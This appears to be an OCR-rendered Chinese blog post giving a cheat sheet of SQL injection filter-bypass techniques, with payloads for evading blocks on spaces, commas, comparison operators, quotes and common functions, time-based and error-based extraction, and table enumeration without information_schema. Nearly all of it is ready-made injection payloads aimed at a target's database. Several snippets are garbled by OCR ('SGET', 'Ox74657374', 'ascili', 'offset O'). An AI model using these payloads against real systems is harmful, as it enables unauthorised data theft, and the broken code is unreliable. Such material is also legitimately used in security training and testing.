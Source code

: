 ```yaml
---
title: SQL注入防御绕过bypass
date: 2022-12-30 23:01:36
---
```

# 说的SQL注入
## SQL注入的目的

往参数里恶意拼接sql语句，使数据库执行恶意sql语句，得到相应信息。

## SQL注入漏洞的产生
对方php的sql查询语句可能是这样:
```php
$sql = "select * from My TableName where id=".SGET[id];
$result = Sconn->query($sql);
```
对方接收了一个以GET方式传递的，名叫id的参数。正常传递参数应该是:/?id=1
恶意传递参数可能就会是:`/?id=1 union select 1,databases(),3;`
数据库实际执行的就是: `select * from users where id=1 union select 1,database(),3;`

# 常见bypass思路
## 过滤空格
可以尝试替换空格的方案：  
- `%20` 空格  
- `%09` 相当于TAB键  
- `%0a` 新建一行  
- `%0c` 新的一页  
- `%0d` return功能  
- `%a0` 空  
- `/**/` 注释  
- `/*!*/` 不注释  

注:不注释替换举例:`select * from users /*!where*/ id=1;`

## 过滤 and/or
可以尝试替换and/or的方案：
- `and` 等同于 `&&`
- `or` 等同于 `||`
- `not` 等同于 `!`
- `xor` 等同于 `|`

## 过滤逗号

- 使用`substr`函数:   
    ```sql
    select * from users where id=1 and 't'=(select(substr(database() from 1 for 1)));
    ```

- 使用`mid`函数，使用方法和`substr`完全相同

- 使用`join`函数绕过: 
    ```sql
    select * from users where id=1 union select * from (select database())a join (select 2)b join(select 3)c;
    ```
    2,3替换成要查询的

- 使用`like`模糊查询:  
    ```sql
    select * from users where id=1 and (select database() like 't%');
    ```
    查询到第一个字符后，进行下一个字符的查询

- 使用正则表达式查询:   
    ```sql
    select * from users where id=1 and (select database() regexp '^t');
    ```
    用法和like查询很相似

- 对于`limit 0,1`的绕过，可使用`limit offset`函数:   
    ```sql
    select * from users where id=-1 union select 1,2,3 from users limit 1 offset O;
    ```

## 过滤等于/大于/小于号
有些会拦截`=`号，可以用前面提到的`like`模糊匹配和正则表达式绕过，也可以用大于小于号来绕过(不是大于也不是小于就是等于了)。

- 大于小于号的特殊用法:`<>`等价于`!=`。所以再在前面加上一个`!`就是等于了。  
    ```sql
    select * from users where id=1 and !('t'<>(select(mid(database() from 1 for 1))));
    ```

- 使用`in`关键字:   
    ```sql
    select * from users where id = 1 or substr(username,1,1) in (t);
    ```

- 使用`between a and b`判断:   
    ```sql
    select * from users where id = 1 or substr(username,1,1) between 't' and 't';
    ```

- 拦截`<`或`>`号,可以用`greatest()`来绕过，这个函数的作用是返回括号内的最大值:
    ```sql
    select * from users where id=1 or greatest(ascii(substr(username,1,1)),1)=116;	
    --(116=t)
    ```
    还有相似用法的`least()`返回括号内的最小值。

## 过滤引号
过滤引号需要分情况讨论  

- 如果是开启gpc类的情况(对引号进行转义: `'=>\'`)，可以考虑二次注入或者宽字节注入，下面使用的hex编码也可以使用。

- 如果是直接报错，那就考虑使用hex编码:   
    ```sql
    select * from users where username=Ox74657374;
    ```

- ascii编码也可以:   
    ```sql
    select * from users where username=CHAR(116,101,115,116);
    ```

## 过滤常见函数
有些会拦截常见函数，那么可以用不那么常见的函数去绕过
列举一些例子：

- 过滤`sleep`函数的时候，可以用`benchmark()`来绕过: 
    ```sql
    select * from users where id=1 and if(ascili(substring((select database()),1,1))=116,benchmark(1000000000,1),benchmark(0,1));
    ```

- 过滤`group_concat`的时候，可以用`concat_ws`来绕过: 
    ```sql
    select * from users where id=-1union select 1,count(*),concat_ws('~',(select concat('-',username,':',password) from users limit(0,1),floor(rand(0)*2))) as a from information_schema.tables group by a;
    ```

- 过滤`substr()`的时候，可以用`left()`来绕过

## 编码/双写/大小写绕过
这三种绕过的限制条件比较多

- 编码绕过
    比如payload整体base64编码绕过，硬性要求对方后端代码使用了base64_decode函数，否则的话不能正常解析。

- 双写绕过
    要求对方后端代码是将敏感单词替换为空，这样才能实现绕过:  `selselectect => select`大小写绕过，需要对方使用的替换函数是大小写不敏感的: `SeLeCt * from users;`

## 多参数拆分/chunked编码绕过
这两种绕过方式的核心都是将传输过去的一句指令拆分成多块

- 多参数拆分绕过需要对方同时接受了个参数，比如最常见的同时传递username和password:  
    ```sql
    select * from users where username='test'/*&password=*/and 1=1;
    ```
    这里传递的username=test/*并且password=*/or1=1，这样前后一拼接，就出现了/""/，这一sql中的注释符。所以这里实际执行的代码，其实就是:   
    ```sql
    select * from users where username='test'and 1=1;
    ```

- chunked编码是HTTP中的一种数据传输机制，具体细节可以自行搜索，作用就是将数据分块传输。
    可以使用burpsuite中的chunked-coding-converter插件，一键编码。

## 过滤`information_schema`
`information_schema`在sql注入中的作用是爆出表名和列名，为最后的爆数据做准备。被过滤了只能从其他sql自带的数据库下手，看看有没有和`information_schema`一样的，存储了其他库的表名列名的表。

- 使用`sys.schema_auto_increment_columns`
`sys.schema_auto_increment_columns`用来对表自增ID的监控。并且基本上所有的表都有自增的id，所以这个可以用来查表名。

更多类似的表，可以参考这个博文: 
https://osandamalith.com/2020/01/27/alternatives-to-extract-tables-and-columns-from-mysql-and-mariadb/

- 使用无列名注入
无列名注入主要是利用`join-using`: 
`join`可建立两个表之间的内连接，当自己和自己建立内连接的时候，会由于冗余原因（存在相同列名）报错，并且报错信息会回显重复列名。这时候可以通过`using`来声明内连接的条件，相当于`inner join`，可避免报错  
    ```sql
    select * from users where id=-1 union select * from (select * from users as a join users as b)as c;  
    select * from users where id=-1 union select " from (select * from users as a join users as b using(id,username,password))as c;
    ```